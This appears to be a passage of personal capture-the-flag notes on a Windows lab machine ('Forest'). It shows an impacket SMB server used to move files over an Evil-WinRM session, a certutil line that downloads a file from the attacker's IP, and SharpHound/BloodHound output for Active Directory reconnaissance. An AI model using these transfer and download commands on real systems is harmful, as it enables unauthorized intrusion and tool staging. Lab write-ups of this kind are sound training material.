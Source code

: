 - Creating smbserver to transfer files from Windows to Kali (vice versa):
    
    ```bash
    // Kali
    ➜  ~ impacket-smbserver icarus .
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    [*] Incoming connection (10.10.10.161,58759)
    [*] AUTHENTICATE_MESSAGE (\,FOREST)
    [*] User FOREST\ authenticated successfully
    [*] :::00::aaaaaaaaaaaaaaaa
    [*] Disconnecting Share(1:IPC$)
    
    ```
    
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net use \\10.10.14.34\icarus
    The command completed successfully.
    ```
    
    - Copying files from Kali to Windows:
    
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy \\10.10.14.34\icarus\users.txt
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir
    
        Directory: C:\Users\svc-alfresco\Documents
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/28/2024   5:17 AM          18941 20240428051704_BloodHound.zip
    -a----        4/28/2024   5:17 AM          19538 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
    -a----        4/28/2024   5:16 AM        1046528 SharpHound.exe
    -a----        4/28/2024   4:09 AM           3093 users.txt
    ```
    
    - I don’t think we are able to copy from Windows to Kali
- We can also use:
    
    ```bash
    certutil -urlcache -split -f http://10.10.14.34/(file) 
    ```
    
- Using bloodhound:
    - Start server:
    
    ```bash
    sudo neo4j console
    ```
    
